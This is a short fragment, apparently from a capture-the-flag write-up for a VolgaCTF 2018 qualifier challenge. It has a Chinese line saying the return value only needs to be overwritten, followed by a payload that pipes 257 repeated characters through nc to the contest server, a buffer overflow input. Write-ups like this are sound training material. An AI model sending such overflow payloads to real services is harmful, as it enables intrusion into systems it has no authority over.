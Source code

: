 - 解法
    - 把回傳值蓋掉就行惹

- Payload
    - `(perl -e 'print "1"x257';cat) | nc ping2.quals.2018.volgactf.ru 45678`
